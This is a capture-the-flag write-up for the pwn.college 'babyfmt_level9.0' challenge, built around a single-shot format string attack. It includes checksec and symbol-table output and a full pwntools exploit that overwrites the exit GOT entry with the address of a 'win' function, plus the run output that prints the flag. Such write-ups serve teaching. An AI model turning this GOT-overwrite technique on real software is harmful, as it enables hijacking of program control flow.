

# Format String Attack - Format String Attack Once

Previous 2 challenges has infinite loops that make us limitless produce format string attack. This variant the format string attack can be executed only once by the binary. Is it ?

## babyfmt_level9.0

**Partial RELRO** and **PIE not enabled**. These indicators means this challenge gonna be easy.

```css
root@5a8cc8d1e548:/host# checksec babyfmt_level9.0
[*] '/host/babyfmt_level9.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

#### Finding redirection address

Also we have **win** function. That's other good sign. The rest is finding suitable target and than we are in business.

```css
root@5a8cc8d1e548:/host# readelf -s babyfmt_level9.0
...
...
...
    71: 00000000004014b9    71 FUNC    GLOBAL DEFAULT   15 init
    72: 00000000004012b6   515 FUNC    GLOBAL DEFAULT   15 DUMP_STACK
    73: 000000000040154a   487 FUNC    GLOBAL DEFAULT   15 func
    74: 00000000004018e0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    75: 00000000004040f0     8 OBJECT  GLOBAL DEFAULT   26 sz_
    76: 0000000000401500    74 FUNC    GLOBAL DEFAULT   15 win --> juicy thing
    77: 00000000004040f8     8 OBJECT  GLOBAL DEFAULT   26 rp_
    78: 0000000000404108     0 NOTYPE  GLOBAL DEFAULT   26 _end
    79: 0000000000401200     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    80: 00000000004011d0    47 FUNC    GLOBAL DEFAULT   15 _start
    81: 0000000000404100     8 OBJECT  GLOBAL DEFAULT   26 sp_
    82: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sendfile@@GLIBC_2.2.5
    83: 0000000000404090     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    84: 0000000000401731   425 FUNC    GLOBAL DEFAULT   15 main
    85: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.2.5
    86: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND open@@GLIBC_2.2.5
    87: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@@GLIBC_2.2.5
    88: 0000000000404090     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    89: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
    90: 00000000004040c0     8 OBJECT  GLOBAL DEFAULT   26 stderr@@GLIBC_2.2.5
```

#### Finding target address

The below screenshot shows, vulnerable **func** function calling **printf** after than calling **exit**. 
Since binary have **Partial RELRO** protection and **PIE not enabled**. That means **GOT** lies in writable memory map and  the addresses constant.

If **exit got entry** overwritten with **win address** . Flag will gathered. 



### Find offset and padlen values

This is previously generated script's output. The script can be found previous posts.

```css
[+] Receiving all data: Done (195B)' stopped with exit code 0 (pid 263)
[DEBUG] Received 0xc3 bytes:
    b'Here is the result:\n'
    b'Your input is:                                                                                                                  \n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161646161616361END'
[*] Found format string offset: 63
[+] User input starts at  : 63
[+] Needed pads           :7
[+] Numbwritten           :0
```

### get_flag.py

The **numbwritten** value can be calculated like [07-Format String Attack - Redirect Code Execution (Full Relro+PIE Enabled)](/Dreamer-Wiki/Pwn/Linux/Format%20String%20Vulnerabilities/07-Format-String-Attack-Redirect-Code-Execution-(Full Relro+PIE Enabled)/)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level9.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level9.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+482
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

#####################
#### Write Part #####
#####################
offset = 63
padlen = 7

f = FmtStr(send_fmt, offset=offset, padlen=padlen, numbwritten=0x81)
f.write(exe.got['exit'], exe.sym.win)
f.execute_writes()

info(io.recv())

io.close()
```

**The Result:**

```css
[+] Starting local process '/host/babyfmt_level9.0_remotelibc': pid 423
/usr/local/lib/python3.12/dist-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] Here is the result:
    Your input is:                                                                                                                  
    kgdjvnq                                                                                                                       #                    \x00                                          aaaabax@@You win! Here is your flag:
    pwn.college{wPA**************************************EzW}
    You win! Here is your flag:
[*] Stopped process '/host/babyfmt_level9.0_remotelibc' (pid 423)
```

